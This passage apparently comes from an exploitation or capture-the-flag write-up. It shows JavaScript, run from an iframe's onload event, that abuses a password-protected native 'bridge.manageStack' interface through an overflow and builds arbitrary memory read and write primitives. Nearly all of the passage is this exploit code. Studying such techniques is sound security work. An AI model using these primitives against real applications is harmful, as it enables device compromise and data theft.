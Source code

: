 Or visualized,

![visual](https://files.catbox.moe/vlo9xe.jpg)

Here's the updated piece of our code that will run inside our `onload` event from iframe.
```js
function stack_push(s) {
    return bridge.manageStack(password, "push", s);
}

function stack_pop() {
    return bridge.manageStack(password, "pop", "00");
}

function stack_top() {
    return bridge.manageStack(password, "top", "00");
}

function stack_edit(s) {
    return bridge.manageStack(password, "modify", s);
}

function u64(s) {
    let n = 0n;
    for (let i = 0; i < s.length && i < 16; i += 2) {
        n += BigInt(parseInt(s.substr(i, 2), 16)) << BigInt(i * 4);
    }
    return n;
}

function p64(n) {
    let s = "";
    while (n) {
        s += (n & 0xFFn).toString(16).padStart(2, "0");
        n >>= 8n;
    }
    return  s + "0".repeat(16 - s.length);
}

stack_push("41414141414141414141414141414141");
stack_push("41414141414141414141414141414141"); // initial top

function read(addr) {
    stack_edit("41414141414141414141414141414141" + p64(addr));
    stack_pop();
    let leak = stack_top();
    stack_push("41414141414141414141414141414141");
    return leak;
}

function write(addr, data) {
    stack_edit("41414141414141414141414141414141" + p64(addr));
    stack_pop();
    stack_edit(data);
    stack_push("41414141414141414141414141414141");
}
```
